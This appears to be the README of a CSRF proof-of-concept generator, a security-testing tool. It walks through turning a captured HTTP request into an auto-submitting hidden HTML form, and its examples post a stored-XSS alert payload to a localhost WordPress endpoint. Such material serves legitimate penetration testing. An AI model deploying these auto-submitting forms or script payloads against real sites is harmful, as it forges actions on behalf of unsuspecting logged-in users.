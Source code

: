 # CSRFPoCGenerator
generate CSRF PoC

---

## Parameters

- send : send type(Form or XHR)
- automatic submitting : submit when opening HTML file
    - specifiable : specify value HTML page(beta)
- HTTP Request : set raw HTTP Request
- URL : Set URL
- method : Set method
- ~~header :Set HTTP header~~(future work)
- enctype : Select enctype
    - boundary : Set boundary for multipart/form-data
- body : Set HTTP body
- title : Downloadable HTML title

## How to use

Click "analyze" to analyze HTTP request & paste

Click "generate and submit" to generate form & submit request.

Click "generate only" to just generate form.

Click "download HTML" to download CSRF PoC HTML.

## Example

### using HTTP Request

Enter the following value.

```
POST http://localhost/post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Connection: keep-alive
Cookie: ucp_tabs=2; wp-settings-1=libraryContent%3Dbrowse%26mfold%3Do%26editor%3Dtinymce%26uploader%3D1; wp-settings-time-1=1535524023; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1536409565%7C8RhEzw0sDtJ91FxFP0dHvh6hSxLcltB3ErbGiZ5Ae5J%7C778801fe295ae26bfa37ac95429e6c969ee7bb8d9b614df39c464f484f4918f3; pps_show_100=1
Upgrade-Insecure-Requests: 1

title=CSRF&name=hello+world&comment=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

Then click "analyze" and separate into 5 parameters(URL, method, header, enctype, body).

Then click "download HTML" and download a HTML file.


### using URL method etc...
Enter the following values.

- URL
```
http://localhost/post.php
```

- method
```
POST
```

- enctype
```
application/x-www-form-urlencoded (default)
```

- body
```
title=CSRF&name=hello+world&comment=%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

Then click "generate only" (or "generate and submit" ) and Output a HTML form (and submit request ).
```
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;
" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
```

- title
```
Hello CSRF PoC
```

Then click "download HTML" and download a HTML file.

```
<!DOCTYPE html>

<html>
<head>
<meta charset="utf-8">
<title>Hello CSRF PoC</title>
</head>
<body onload="document.evilform.submit();">
<form target="dummyfrm" name="evilform" action="http://localhost/post.php" method="POST" enctype="application/x-www-form-urlencoded">
<input type="hidden" name="title" value="CSRF" />
<input type="hidden" name="name" value="hello world" />
<input type="hidden" name="comment" value="&lt;script&gt;alert(1);&lt;/script&gt;" />
</form>
<iframe src="x" width="1" height="1" name="dummyfrm" style="visibility:hidden"></iframe>
<p>Hello CSRF PoC</p>
</body>
</html>
```

---

# Other

## URL encoding

- URLencode : Set string
```
<script>alert(1);</script>
```

Then click "URL encode" and encode input string.
```
%3Cscript%3Ealert(1)%3B%3C%2Fscript%3E
```

---

# Change log

v1.4

- added raw Request
- added detect boundary
- added an option to specifiable value

v1.3

- added XHR multipart/form-data transmission
- added an option to send automatically
- arbitrary enctype

v1.2

- added XHR mode

v1.1

- added enctype setting
- added download function
- fixed typo

